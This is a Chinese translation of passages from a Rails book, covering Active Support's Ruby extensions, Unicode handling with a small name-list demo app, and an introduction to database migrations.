我们将两个最重要的章节留到最后。第 26 章“保护你的 Rails 应用程序”包含了当你将应用程序暴露给庞大而危险的世界后，希望晚上能安然入睡的重要信息。而第 27 章“部署和生产”则包含了将 Rails 应用程序投入生产并随着用户群增长进行扩展的细节。


# 第15章

### Active Support

Active Support 是一组由所有 Rails 组件共享的库。其中大部分内容旨在供 Rails 内部使用。然而，Active Support 也以有趣且有用的方式扩展了 Ruby 的一些内置类。在本节中，我们将快速列出这些扩展中最常用的部分。

最后，我们还将简要介绍 Ruby 和 Rails 如何处理 Unicode 字符串，从而使创建能够正确处理国际化文本的网站成为可能。

### 15.1 通用扩展

正如我们将在第522页讨论 AJAX 时看到的，有时将 Ruby 对象转换为中性形式以便发送给远程程序（通常是运行在用户浏览器中的 JavaScript）会很有用。Rails 通过两种方法扩展了 Ruby 对象：`to_json` 和 `to_yaml`。这些方法将对象转换为 JavaScript 对象表示法（JSON）和 YAML（与 Rails 配置文件和夹具文件中使用的表示法相同）。

```ruby
# For demo purposes, create a Ruby structure with two attributes
Rating = Struct.new(:name, :ratings)
rating = Rating.new("Rails", [ 10, 10, 9.5, 10 ])

# and serialize an object of that structure two ways...
puts rating.to_json       #=> ["Rails", [10, 10, 9.5, 10]]
puts rating.to_yaml       #=> --- !ruby/struct:Rating
                          #    name: Rails
                          #    ratings:
                          #    - 10
                          #    - 10
                          #    - 9.5
                          #    - 10
```

此外，所有 Active Record 对象和所有哈希都支持 `to_xml` 方法。我们在第12.1节“自动生成XML”（第181页）中已经见过。

> **David如是说......**

**为什么扩展现有类不会导致灾难**

第一次看到 `5.months + 30.minutes` 时产生的敬畏感，通常很快就会被一种恐慌状态所取代。如果每个人都能随意改变整数的工作方式，难道这不会导致完全无法维护的混乱地狱吗？是的，如果每个人都一直这样做的话，确实会。但他们并没有，所以也就没有发生。

不要将 Active Support 视为一堆随意扩展 Ruby 语言的集合，邀请每个人都把自己偏爱的特性添加到字符串类中。可以把它看作是所有 Rails 程序员普遍使用的一种 Ruby 方言。因为 Active Support 是 Rails 的必要组成部分，所以你总能依赖这样一个事实：`5.months` 在任何 Rails 应用程序中都能工作。这就抵消了存在成千上万种个人 Ruby 方言的问题。

在语言扩展方面，Active Support 让我们两全其美。它是一种情境化的标准化。

为了更容易判断某些内容是否为空，Rails 通过 `blank?` 方法扩展了所有 Ruby 对象。对于 `nil` 和 `false`，它总是返回 true；对于数字和 `true`，它总是返回 false。对于所有其他对象，如果该对象为空，则返回 true。（仅包含空格的字符串被视为空。）

```ruby
puts [ ].blank?        #=> true
puts { 1 => 2}.blank?  #=> false
puts "   cat ".blank?   #=> false
puts "".blank?          #=> true
puts " ".blank?         #=> true
puts nil.blank?         #=> true
```

### 15.2 枚举和数组

由于我们的 Web 应用程序花费大量时间处理集合，Rails 为 Ruby 的 Enumerable 混入添加了一些神奇功能。

`group_by` 方法将集合划分为值组。它通过为集合中的每个元素调用一次块，并使用块返回的结果作为分区键来实现这一点。结果是一个哈希，其中每个键都关联着来自原始集合的一组共享共同分区键的元素数组。例如，以下代码按作者拆分了一组文章。

```ruby
groups = posts.group_by {|post| post.author_id}
```

变量 `groups` 将引用一个哈希，其中键是作者 ID，值是由相应作者撰写的文章数组。

你也可以这样写：

```ruby
groups = posts.group_by {|post| post.author}
```

两种情况下的分组结果是相同的，但在第二种情况下，整个 Author 对象将用作哈希键（这意味着将从数据库中为每篇文章检索作者对象）。哪种形式正确取决于你的应用程序。

Rails 还通过另外两个方法扩展了 Enumerable。`index_by` 方法接受一个集合并将其转换为一个哈希，其中值来自原始集合。引用每个值的键是通过将该元素传递给块来确定的。

```ruby
us_states = State.find(:all)
state_lookup = us_states.index_by {|state| state.short_name}
```

`sum` 方法通过对每个元素传递给一个块并累加该块返回的值的总和来对集合求和。它假定累加器的初始值为数字 0；你可以通过向 `sum` 传递一个参数来覆盖此默认值。

```ruby
total_orders = Order.find(:all).sum {|order| order.value }
```

Rails 还通过一些便捷方法扩展了数组。

```ruby
puts [ "ant", "bat", "cat"].to_sentence   #=> "ant, bat, and cat"
puts [ "ant", "bat", "cat"].to_sentence(:connector => "and not forgetting")
                                      #=> "ant, bat, and not forgetting cat"
puts [ "ant", "bat", "cat"].to_sentence(:skip_last_comma => true)
                                      #=> "ant, bat and cat"

[1,2,3,4,5,6,7].in_groups_of(3) {|slice| puts slice.inspect}
                                      #=> [1, 2, 3]
                                      #   [4, 5, 6]
                                      #   [7, nil, nil]

[1,2,3,4,5,6,7].in_groups_of(3, "X") {|slice| puts slice.inspect}
                                      #=> [1, 2, 3]
                                      #   [4, 5, 6]
                                      #   [7, "X", "X"]
```

### 15.3 字符串扩展

Ruby 新手经常会惊讶地发现，使用 `string[2]` 之类的索引方式访问字符串时，返回的是一个整数，而不是一个单字符的字符串。Rails 向字符串添加了一些辅助方法，提供了更自然的行为。

```ruby
string = "Now is the time"
puts string.at(2)        #=> "w"
puts string.from(8)      #=> "he time"
puts string.to(8)        #=> "Now is th"
puts string.first        #=> "N"
puts string.first(3)     #=> "Now"
puts string.last         #=> "e"
puts string.last(4)      #=> "time"
puts string.starts_with?("No")   #=> true
puts string.ends_with?("ME")     #=> false

count = Hash.new(0)
string.each_char {|ch| count[ch] += 1}
puts count.inspect        #=> {" "=>3, "w"=>1, "m"=>1, "N"=>1, "o"=>1,
                           #    "e"=>2, "h"=>1, "s"=>1, "t"=>2, "i"=>2}
```

Active Support 为所有字符串添加了方法，以支持 Rails 本身将名称从单数转换为复数、从小写转换为混合大小写等。其中一些方法在普通应用程序中可能很有用。

```ruby
puts "cat".pluralize            #=> cats
puts "cats".pluralize           #=> cats
puts "erratum".pluralize        #=> errata
puts "cats".singularize         #=> cat
puts "errata".singularize       #=> erratum
puts "first_name".humanize      #=> "First name"
puts "now is the time".titleize #=> "Now Is The Time"
```

#### 编写你自己的词形变化规则

Rails 附带了一套相当不错的英语单词构成复数的规则，但它（目前）还不知道每一个不规则形式。例如，如果你正在编写一个农业应用程序，并且有一个关于鹅（geese）的表，Rails 可能无法自动识别它。

```console
depot> ruby script/console
Loading development environment.
>> "goose".pluralize
=> "gooses"
```

在我看来，*gooses* 是一个动词，而不是复数名词。

就像 Rails 中的所有事物一样，如果你不喜欢默认设置，你可以更改它们。更改自动词形变化很容易。在 config 目录下的 `environment.rb` 文件底部，你会找到一个被注释掉的部分，用于配置 `Inflector` 模块。这让我们可以定义构成单词复数和单数形式的新规则。我们可以告诉它：

- 给定单数形式，一个单词或一类单词的复数形式
- 给定复数形式，一个单词或一类单词的单数形式
- 哪些单词具有不规则的复数形式
- 哪些单词没有复数形式


我们的“goose/geese”这对词属于不规则复数形式，因此可以通过以下方式告知词形变化器：

```ruby
Inflector.inflections do |inflect|
  inflect.irregular "goose", "geese"
end
```

现在 Rails 就能正确处理了。

```
depot> ruby script/console
Loading development environment.
>> "goose".pluralize            #=> "geese"
>> "geese".singularize          #=> "goose"
```

也许令人惊讶的是，定义一个不规则复数形式实际上会为所有符合给定模式的单词定义复数形式。

```
>> "canadagoose".pluralize      #=> "canadageese"
>> "wildgeese".singularize      #=> "wildgoose"
```

对于一系列复数形式，可以定义基于模式的规则来形成单复数形式。例如，*father-in-law* 的复数形式是 *fathers-in-law*，*mother-in-law* 变为 *mothers-in-law*，依此类推。你可以通过使用正则表达式定义映射来告知 Rails 这一点。在这种情况下，你必须告诉它如何从单数形式构成复数形式，反之亦然。

```ruby
Inflector.inflections do |inflect|
  inflect.plural(/-in-law$/, "-in-laws")
  inflect.singular(/-in-laws$/, "-in-law")
end
>> "sister-in-law".pluralize     #=> "sisters-in-law"
>> "brothers-in-law".singularize #=> "brother-in-law"
```

有些词是不可数的（比如我程序里的 bug）。你可以使用 uncountable 方法来告知词形变化器。

```ruby
Inflector.inflections do |inflect|
  inflect.uncountable("air", "information", "water")
end
>> "water".pluralize             #=> "water"
>> "water".singularize          #=> "water"
```

在 Rails 应用程序中，这些更改可以放在 `config` 目录下的 `environment.rb` 文件中。

### 15.4 数字的扩展

整数新增了两个实例方法 `even?` 和 `odd?`。你还可以使用 `ordinalize` 获取整数的序数形式。

```ruby
puts 3.ordinalize     #=> "3rd"
puts 321.ordinalize   #=> "321st"
```

所有数值对象都新增了一系列比例缩放方法。同时支持单数和复数形式。

```ruby
puts 20.bytes          #=> 20
puts 20.kilobytes      #=> 20480
puts 20.megabytes      #=> 20971520
puts 20.gigabytes      #=> 21474836480
puts 20.terabytes      #=> 21990232555520
puts 20.petabytes      #=> 22517998136852480
puts 1.exabyte          #=> 1152921504606846976
```

还有基于时间的缩放方法。这些方法将其调用者转换为等效的秒数。`months` 和 `years` 方法并不精确——假设一个月为 30 天，一年为 365 天。然而，`Time` 类已通过一些方法进行了扩展，这些方法可以给出准确的相对日期（参见下一节的说明）。同样，也支持单数和复数形式。

```ruby
puts 20.seconds    #=> 20
puts 20.minutes    #=> 1200
puts 20.hours      #=> 72000
puts 20.days       #=> 1728000
puts 20.weeks      #=> 12096000
puts 20.fortnights #=> 24192000
puts 20.months     #=> 51840000
puts 20.years      #=> 630720000
```

你也可以使用 `ago` 和 `from_now` 方法（或其别名 `until` 和 `since`）来计算相对于某个时间（默认为 `Time.now`）的时间。

```ruby
puts Time.now          #=> Thu May 18 23:29:14 CDT 2006
puts 20.minutes.ago    #=> Thu May 18 23:09:14 CDT 2006
puts 20.hours.from_now #=> Fri May 19 19:29:14 CDT 2006
puts 20.weeks.from_now #=> Thu Oct 05 23:29:14 CDT 2006
puts 20.months.ago     #=> Sat Sep 25 23:29:16 CDT 2004
puts 20.minutes.until("2006-12-25 12:00:00".to_time)
                      #=> Mon Dec 25 11:40:00 UTC 2006
puts 20.minutes.since("2006-12-25 12:00:00".to_time)
                      #=> Mon Dec 25 12:20:00 UTC 2006
```

这不是很酷吗？而且还有更酷的……

### 15.5 时间和日期的扩展

`Time` 类新增了许多有用的方法，帮助你计算相对时间和日期，并格式化时间字符串。其中许多方法都有别名：详情请参阅 API 文档。

```ruby
now =  Time.now
puts now                       #=> Thu May 18 23:36:10 CDT 2006
puts now.to_date               #=> 2006-05-18
puts now.to_s                  #=> Thu May 18 23:36:10 CDT 2006
puts now.to_s(:short)          #=> 18 May 23:36
puts now.to_s(:long)                #=> May 18, 2006 23:36
puts now.to_s(:db)                  #=> 2006-05-18 23:36:10
puts now.to_s(:rfc822)              #=> Thu, 18 May 2006 23:36:10 -0500
puts now.ago(3600)                  #=> Thu May 18 22:36:10 CDT 2006
puts now.at_beginning_of_day        #=> Thu May 18 00:00:00 CDT 2006

puts now.at_beginning_of_month      #=> Mon May 01 00:00:00 CDT 2006
puts now.at_beginning_of_week       #=> Mon May 15 00:00:00 CDT 2006
puts now.at_beginning_of_quarter    #=> Sat Apr 01 00:00:00 CST 2006
puts now.at_beginning_of_year       #=> Sun Jan 01 00:00:00 CST 2006
puts now.at_midnight                #=> Thu May 18 00:00:00 CDT 2006

puts now.change(:hour => 13)        #=> Thu May 18 13:00:00 CDT 2006
puts now.last_month                 #=> Tue Apr 18 23:36:10 CDT 2006
puts now.last_year                  #=> Wed May 18 23:36:10 CDT 2005
puts now.midnight                   #=> Thu May 18 00:00:00 CDT 2006
puts now.monday                     #=> Mon May 15 00:00:00 CDT 2006

puts now.months_ago(2)              #=> Sat Mar 18 23:36:10 CST 2006
puts now.months_since(2)            #=> Tue Jul 18 23:36:10 CDT 2006
puts now.next_week                  #=> Mon May 22 00:00:00 CDT 2006
puts now.next_year                  #=> Fri May 18 23:36:10 CDT 2007
puts now.seconds_since_midnight     #=> 84970.423472

puts now.since(7200)                #=> Fri May 19 01:36:10 CDT 2006
puts now.tomorrow                   #=> Fri May 19 23:36:10 CDT 2006
puts now.years_ago(2)               #=> Tue May 18 23:36:10 CDT 2004
puts now.years_since(2)             #=> Sun May 18 23:36:10 CDT 2008
puts now.yesterday                  #=> Wed May 17 23:36:10 CDT 2006

puts now.advance(:days => 30)       #=> Sat Jun 17 23:36:10 CDT 2006
puts Time.days_in_month(2)          #=> 28
puts Time.days_in_month(2, 2000)    #=> 29
```

Date 对象也增加了一些有用的方法。

```ruby
date = Date.today
puts date.to_s                       #=> "2006-05-18"
puts date.to_time                    #=> Thu May 18 00:00:00 CDT 2006
puts date.to_s(:short)               #=> "18 May"
puts date.to_s(:long)                #=> "May 18, 2006"
puts date.to_s(:db)                  #=> "2006-05-18"
```

最后一种方法将日期转换为应用程序当前使用的默认数据库可接受的字符串。你可能已经注意到，`Time` 类有一个类似的扩展，用于以特定于数据库的格式格式化日期时间字段。

你可以为日期和时间格式添加自己的扩展。例如，你的应用程序可能需要显示序数日期（一年中的第几天）。Ruby 的 Date 和 Time 库都支持用于格式化日期的 strftime 方法，因此你可以使用类似这样的代码

```ruby
>> d = Date.today
=> #<Date: 4907769/2,0,2299161>
>> d.to_s
=> "2006-05-29"
>> d.strftime("%y-%j")
=> "06-149"
```

不过，你可能希望通过扩展日期的 `to_s` 方法来封装这种格式。在你的 `environment.rb` 文件中，添加如下一行代码。

```ruby
ActiveSupport::CoreExtensions::Date::Conversions::DATE_FORMATS.merge!(
  :ordinal => "%Y-%j"
)
```

现在你可以这样写

```ruby
any_date.to_s(:ordinal)       #=> "2006-149"
```

你也可以扩展 `Time` 类的字符串格式。

```ruby
ActiveSupport::CoreExtensions::Time::Conversions::DATE_FORMATS.merge!(
  :chatty => "It's %I:%M%p on %A, %B %d, %Y"
)
Time.now.to_s(:chatty)  #=> "It's 12:49PM on Monday, May 29, 2006"
```

`String` 类也新增了两个与时间相关的有用方法。`to_time` 和 `to_date` 方法分别返回 `Time` 和 `Date` 对象。

```ruby
puts "2006-12-25 12:34:56".to_time   #=> Mon Dec 25 12:34:56 UTC 2006
puts "2006-12-25 12:34:56".to_date   #=> 2006-12-25
```

Active Support 还包含一个 `TimeZone` 类。`TimeZone` 对象封装了时区的名称和偏移量。该类包含一个世界时区列表。详情请参阅 Active Support 的 RDoc 文档。

### 15.6 Ruby 符号的扩展

> （本节描述了 Ruby 的一个高级特性，第一次阅读时可以安全地跳过……）

我们经常使用迭代器，其中块（block）所做的只是调用其参数上的一个方法。我们在前面的 `group_by` 和 `index_by` 示例中就是这样做的。

```ruby
groups = posts.group_by {|post| post.author_id}
```

Rails 提供了一种简写符号来实现这一点。我们可以将上面的代码写成

```ruby
groups = posts.group_by(&:author_id)
```

同样，代码

```ruby
us_states = State.find(:all)
state_lookup = us_states.index_by {|state| state.short_name}
```

也可以写成

```ruby
us_states = State.find(:all)
state_lookup = us_states.index_by(&:short_name)
```


### 15.7 with_options

这种神奇的机制是如何运作的？它依赖于一个事实：`&` 参数传递符号期望一个 `Proc` 对象。如果它没有接收到一个 `Proc` 对象，Ruby 会尝试通过调用接收到的对象的 `to_proc` 方法，将其转换为 `Proc` 对象。这里我们传递了一个符号（`:author_id`）。而 Rails 已经在 `Symbol` 类中方便地定义了一个 `to_proc` 方法。以下是其具体实现——理解它留给读者作为练习。

```ruby
class Symbol
  def to_proc
    Proc.new { |obj, *args| obj.send(self, *args) }
  end
end
```

许多 Rails 方法以哈希选项作为其最后一个参数。你有时会发现自己连续调用其中几个方法，而每次调用都有一个或多个共同的选项。例如，你可能正在定义一些路由。

```ruby
ActionController::Routing::Routes.draw do |map|
  map.connect "/shop/summary",     :controller => "store",
                                  :action => "summary"

  map.connect "/titles/buy/:id", :controller => "store",
                                :action => "add_to_cart"

  map.connect "/cart",            :controller => "store",
                                  :action => "display_cart"
end
```

`with_options` 方法允许你只指定一次这些公共选项。

```ruby
ActionController::Routing::Routes.draw do |map|
  map.with_options(:controller => "store") do |store_map|
    store_map.connect "/shop/summary", :action => "summary"
    store_map.connect "/titles/buy/:id", :action => "add_to_cart"
    store_map.connect "/cart", :action => "display_cart"
  end
end
```

在这个例子中，`store_map` 的作用就像一个 `map` 对象，但选项 `:controller => "store"` 会在每次调用它时，被添加到其选项列表中。

`with_options` 方法可用于任何最后一个参数是哈希的 API 调用。

### 15.8 Unicode 支持

在过去，字符由 6 位、7 位或 8 位的序列表示。每个计算机制造商决定了自己的位模式与字符表示之间的映射关系。最终，标准开始出现，诸如 ASCII 和 EBCDIC 之类的编码变得普遍。然而，即使在这些标准中，你也不能确保一个给定的位模式会显示一个特定的字符：7 位 ASCII 字符 `0b0100011` 在美国的终端上会显示为 `#`，而在英国的终端上则显示为 `£`。像代码页这样的 hack，将多个字符叠加到相同的位模式上，虽然在本地解决了问题，却在全球范围内使问题更加复杂。

与此同时，人们很快意识到，8 位对于编码许多语言所需的字符来说远远不够。为了解决这个问题，Unicode 联盟成立了。¹

Unicode 定义了许多不同的编码方案，允许每个字符使用多达 32 位进行表示。Unicode 通常使用三种编码形式中的一种进行存储。其中一种形式是 UTF-32，每个字符（严格来说是一个码位）都表示为一个 32 位值。另外两种（UTF-16 和 UTF-8）则将字符表示为一个或多个 16 位或 8 位值。当 Rails 存储 Unicode 字符串时，它使用 UTF-8。

作为 Rails 基础的 Ruby 语言起源于日本。事实证明，从历史上看，日本程序员在将其语言编码为 Unicode 时遇到了问题。这意味着，尽管 Ruby 支持以 Unicode 编码的字符串，但它在其库中并没有真正支持 Unicode。例如，`ü` 的 UTF-8 表示是 2 字节序列 `c3 bc`（我们现在使用十六进制来显示二进制值）。但如果你给 Ruby 一个包含 `ü` 的字符串，它的库方法不会知道这两个字节是用来表示一个字符的。

```ruby
dave> irb
irb(main):001:0> name = "Günter"
=> "G\303\274nter"
irb(main):002:0> name.length
=> 7
```

尽管 `Günter` 有六个字符，但它的表示使用了 7 个字节，这就是 Ruby 报告的数字。

然而，Rails 1.2 包含了对这个问题的修复。它并不是对 Ruby 库的替代，因此在某些情况下仍然会出现意外情况。但即便如此，2006 年 9 月添加到 Active Support 中的新的 Rails Multibyte 库，在使 Rails 应用程序中的 Unicode 处理变得容易方面，取得了长足的进步。

¹ http://www.unicode.org

Multibyte 库并没有用 Unicode 感知版本替换 Ruby 内置的字符串库方法，而是定义了一个名为 `Chars` 的新类。这个类定义了与内置 `String` 类相同的方法，但这些方法能够感知字符串的底层编码。

使用 Multibyte 字符串的规则很简单：每当你需要处理以 UTF-8 编码的字符串时，首先将这些字符串转换为 `Chars` 对象。该库为所有字符串添加了一个 `chars` 方法，使这变得很容易。

让我们在 `script/console` 中体验一下。

```ruby
dave> script/console
Loading development environment.
>> name = "G\303\274nter"
=> "Günter"
>> name.length
=> 7
>> name.chars.length
=> 6
>> name.reverse
=> "retn\274?G"
>> name.chars.reverse
=> #<ActiveSupport::Multibyte::Chars:0x2c4cdf4 @string="retnüG">
```

我们首先将一个包含 UTF-8 字符的字符串存储到变量 `name` 中。

在第 5 行，我们向 Ruby 询问字符串的长度。它返回 7，即表示中的字节数。但是，然后在第 7 行，我们使用 `chars` 方法创建一个 `Chars` 对象，该对象包装了底层字符串。询问这个新对象的长度，我们得到 6，即字符串中的字符数。

类似地，反转原始字符串会产生乱码；它只是反转了字节的顺序。而反转 `Chars` 对象则会产生预期的结果。

理论上，所有 Rails 内部库现在都是 Unicode 兼容的，这意味着（例如）如果你的应用程序启用了 UTF-8 支持，`validates_length_of` 将正确检查 UTF-8 字符串的长度。

然而，拥有支持编码的字符串处理并不足以确保你的应用程序能与 Unicode 字符正常工作。你需要确保整个数据路径，从浏览器到数据库，都使用共同的编码。为了探讨这一点，让我们编写一个构建名称列表的简单应用程序。

#### Unicode 名称应用程序

我们将编写一个在页面上显示名称列表的简单应用程序。该页面上的一个输入字段允许你向列表中添加新名称。完整的名称列表存储在数据库表中。

我们将创建一个常规的 Rails 应用程序。

```bash
dave> rails namelist
dave> cd namelist
namelist> ruby script/server
```

接下来我们需要创建我们的数据库。然而，我们还需要确保该数据库的默认字符集是 UTF-8。具体如何操作取决于数据库。以下是 MySQL 的操作方法。²

```sql
namelist> mysql -u root
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 85 to server version: 5.0.22

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> create database namelist_development character set utf8;
Query OK, 1 row affected (0.00 sec)
```

这告诉数据库使用哪种字符编码。也许令人惊讶的是，我们还需要告诉每个 MySQL 连接它应该使用哪种编码。我们通过 `database.yml` 中的 `encoding` 选项来完成此操作。（我们这里只展示了开发部分：你需要为测试和生产环境做同样的设置。）

```yaml
# Download e1/namelist/config/database.yml

development:
  adapter: mysql
  database: namelist_development
  username: root
  password:
  host: localhost
  encoding: utf8
```

现在我们将为我们的名称创建一个模型。

```bash
namelist> script/generate model person
```

然后我们将填充迁移文件。

```ruby
# Download e1/namelist/db/migrate/001_create_people.rb

class CreatePeople < ActiveRecord::Migration
  def self.up
    create_table :people do |t|
      t.column :name, :string
    end
  end

  def self.down
    drop_table :people
  end
end
```

² 通常我们会使用 `mysqladmin` 来创建数据库。然而，它的 `--default-character-set` 选项似乎不起作用。


由于我们将整个数据库的默认字符集设置为UTF-8，因此在迁移文件中无需进行任何特殊处理。如果无法在数据库级别设置此选项，我们本可以在迁移中按表进行设置。

```ruby
create_table :people, :options => 'default charset=utf8' do |t|
  t.column :name, :string
end
```

然而，这会使迁移变得特定于MySQL。因此，除非你将`environment.rb`中的默认`schema_format`更改为`:sql`，否则表选项不会被复制到测试数据库中。这个麻烦本身就是一个温和的建议：应该在数据库级别进行字符集选择。

现在，我们将编写控制器和视图。我们将通过使用单个动作来保持控制器的简单性。

```ruby
class PeopleController < ApplicationController
  def index
    @person = Person.new(params[:person])
    @person.save! if request.post?
    @people = Person.find(:all)
  end
end
```

我们已经使数据库具备了Unicode感知能力。现在，我们只需在浏览器端做同样的事情。

从Rails 1.2开始，默认的内容类型头是

```
Content-Type: text/html; charset=UTF-8
```

不过，为了确保无误，我们还会在页面头部添加一个<meta>标签来强制指定此设置。这也意味着如果用户将页面保存为本地文件，之后也能正确显示。我们的布局文件是

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
       "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
  <head>
    <meta http-equiv="content-type" content="text/html; charset=UTF-8">
    <title>My Name List</title>
  </head>
  <body>
    <%= yield :layout %>
  </body>
</html>
```

在我们的`index`视图中，我们将显示数据库中的完整姓名列表，并提供一个简单的表单让大家输入新姓名。在列表中，我们将显示姓名及其字节大小和字符数，并且，为了展示效果，我们还将对其进行反转。

```erb
<table border="1">
  <tr>
    <th>Name</th><th>bytes</th><th>chars</th><th>reversed</th>
  </tr>
  <% for person in @people %>
    <tr>
      <td><%= h(person.name) %></td>
      <td><%= person.name.length %></td>
      <td><%= person.name.chars.length %></td>
      <td><%= h(person.name.chars.reverse) %></td>
    </tr>
  <% end %>
</table>

<% form_for :person do |form| %>
  New name: <%= form.text_field :name %>
  <%= submit_tag "Add" %>
<% end %>
```

当我们将浏览器指向`people`控制器时，我们会看到一个空的表格。让我们先在姓名字段中输入“Dave”。



当我们点击“添加”按钮时，我们看到字符串“Dave”包含4个字节和4个字符——在UTF-8中，普通的ASCII字符占1个字节。



当我们输入“Günter”后点击“添加”，我们看到不同的情况。



因为ü字符在UTF-8中占2个字节，所以我们看到该字符串的字节长度为7，字符长度为6。请注意反转形式显示正确。

最后，我们添加一些日文文本。

| Name | bytes | chars | reversed |
|---|---|---|---|
| Dave | 4 | 4 | evaD |
| Günter | 7 | 6 | retniüG |
| にっぽん | 9 | 3 | んっぽに |
| New name: | | | [Add] |

现在，字节长度和字符长度之间的差异更大了。然而，字符串仍然能够逐字符地正确反转。

# 第16章

## 迁移

Rails鼓励一种敏捷、迭代的开发风格。我们不期望第一次就把所有事情都做对。相反，我们编写测试并与客户互动，在过程中不断提炼我们的理解。

为了实现这一点，我们需要一套配套的实践。我们编写测试来帮助我们设计接口，并在修改东西时作为安全网；我们使用版本控制来存储应用程序的源文件，使我们能够撤销错误并监控每日的变化。

但应用程序还有一个领域会发生变化，这个领域我们无法直接使用版本控制来管理。Rails应用程序的数据库模式随着开发的进程而不断演变：我们在这里添加一个表，在那里重命名一个列，等等。数据库随应用程序代码同步变化。

从历史上看，这一直是个问题。开发者（或数据库管理员）根据需要进行模式更改。但是，如果应用程序代码回滚到以前的版本，就很难撤销数据库模式更改，以使数据库与该先前的应用程序版本保持一致——数据库本身没有版本信息。

多年来，开发者们想出了解决这个问题的方法。一种方案是将定义模式的数据定义语言（DDL）语句以源文件形式保存在版本控制中。每当更改模式时，你就编辑此文件以反映更改。然后，你删除你的开发数据库，并通过应用DDL从头开始重新创建模式。如果你需要回滚一周，从版本控制系统中检出的应用程序代码和DDL是同步的：当你从DDL重新创建模式时，你的数据库就会回到过去。

例外情况……因为你每次应用DDL都会删除数据库，所以你会丢失开发数据库中的任何数据。如果能只应用那些将数据库从版本*x*移动到版本*y*所必需的更改，岂不是更方便？这正是Rails迁移让你做的事情。

让我们从抽象层面开始了解迁移。假设我们有一个订单数据表。有一天，我们的客户进来要求我们将客户的电子邮件地址添加到订单中捕获的数据中。这涉及对应用程序代码和数据库模式的更改。为了处理这个问题，我们创建一个数据库迁移，声明“向orders表添加一个电子邮件列”。这个迁移放在一个单独的文件中，我们将其与所有其他应用程序文件一起置于版本控制之下。然后我们将此迁移应用到我们的数据库，该列就被添加到现有的orders表中。

究竟是如何将迁移应用到数据库的？事实证明，每个迁移都有一个关联的序列号。这些数字从1开始——每个新迁移获得下一个可用的数字。Rails记住最后应用于数据库的迁移的序列号。然后，当你要求它通过应用新的迁移来更新模式时，它会将数据库模式的序列号与可用迁移的序列号进行比较。如果它发现迁移的序列号高于数据库模式，它会按顺序逐个应用它们。

但是，我们如何将模式回滚到以前的版本呢？我们通过使每个迁移可逆来做到这一点。每个迁移实际上包含两组指令。一组告诉Rails在应用迁移时对数据库进行哪些更改，另一组告诉Rails如何撤销这些更改。在我们的*orders*表示例中，迁移的*应用*部分向表中添加了电子邮件列，而*撤销*部分则移除了该列。现在，要回滚模式，我们只需告诉Rails我们希望数据库模式达到的序列号即可。如果当前数据库模式的序列号高于此目标编号，Rails会取出数据库当前序列号对应的迁移，并应用其撤销操作。这会从模式中移除该迁移所做的更改，并在此过程中递减数据库的序列号。它重复此过程，直到数据库达到所需的版本。

### 16.1 创建和运行迁移

迁移只是应用程序`db/migrate`目录中的一个Ruby源文件。每个迁移文件的名称以（默认情况下）三位数字和一个下划线开头。这些数字是迁移的关键，因为它们定义了迁移应用的顺序——它们就是各个迁移的版本号。

以下是我们的Depot应用程序的`db/migrate`目录的样子。


#### 运行迁移

尽管你可以手动创建这些迁移文件，但使用生成器会更简单（也更不容易出错）。正如我们在创建 Depot 应用程序时看到的，实际上有两个生成器可以创建迁移文件。

- *模型*生成器会创建一个迁移，用于创建与该模型关联的表（除非你指定了 `--skip-migration` 选项）。如下面的例子所示，创建一个名为 discount 的模型也会同时创建一个名为 `014_create_discounts.rb` 的迁移。
- 你也可以单独生成一个迁移。

```
depot> ruby script/generate model discount
  exists  app/models/
  exists  test/unit/
  exists  test/fixtures/
  create  app/models/discount.rb
  create  test/unit/discount_test.rb
  create  test/fixtures/discounts.yml
  exists  db/migrate
  create  db/migrate/014_create_discounts.rb
```

```
depot> ruby script/generate migration add_price_column
  exists  db/migrate
  create  db/migrate/015_add_price_column.rb
```

稍后，在*迁移剖析*部分，我们将看到迁移文件的内容。但现在，让我们在工作流中稍微向前跳一步，看看如何运行迁移。

迁移是通过 `db:migrate` Rake 任务来运行的。

```
depot> rake db:migrate
```

要了解接下来发生了什么，让我们深入了解 Rails 的内部机制。

迁移代码在每个 Rails 数据库中维护一个名为 `schema_info` 的表。这个表只有一列，名为 `version`，并且只会有一行数据。`schema_info` 表用于记住数据库的当前版本。

当你运行 `rake db:migrate` 时，该任务首先查找 `schema_info` 表。如果它还不存在，则会创建它，并在其中存储版本号 0。如果它已存在，则从中读取版本号。

然后，迁移代码会查看 `db/migrate` 中的所有迁移文件。如果任何迁移的序列号（文件名开头的数字）大于数据库的当前版本，则会依次将它们应用于数据库。每个迁移完成后，其在 `schema_info` 表中的版本会更新为其序列号。

如果此时我们再次运行迁移，将不会发生太多事情。数据库中的版本号将等于最高编号迁移的序列号，因此没有迁移可以应用。

然而，如果我们随后创建一个新的迁移文件，它的序列号将比数据库版本大一。如果我们然后运行迁移，这个新的迁移文件将被执行。

你可以通过向 `rake db:migrate` 命令提供 `VERSION=` 参数来强制数据库达到特定版本。

```
depot> rake db:migrate VERSION=23
```

如果你提供的版本号大于数据库版本，迁移将从数据库版本开始应用，直到你提供的版本号结束。

但是，如果命令行上的版本号小于当前数据库版本，则会发生不同的情况。在这种情况下，Rails 会查找与数据库版本匹配的迁移文件并撤销它。然后，它递减版本号，查找匹配的文件，撤销它，依此类推，直到版本号与你在命令行上指定的版本匹配。也就是说，迁移会按照相反的顺序被撤销，以将架构回退到你指定的版本。

### 16.2 迁移剖析

迁移是 Rails 类 `ActiveRecord::Migration` 的子类。你创建的类应至少包含两个类方法：`up` 和 `down`。

```
class SomeMeaningfulName < ActiveRecord::Migration
  def self.up
    # ...
  end

  def self.down
    # ...
  end
end
```

`up` 方法负责应用此迁移的架构更改，而 `down` 方法则撤销这些更改。让我们更具体一些。这是一个为 `orders` 表添加 `e_mail` 列的迁移。

```
class AddEmailColumnToOrders < ActiveRecord::Migration
  def self.up
    add_column :orders, :e_mail, :string
  end

  def self.down
    remove_column :orders, :e_mail
  end
end
```

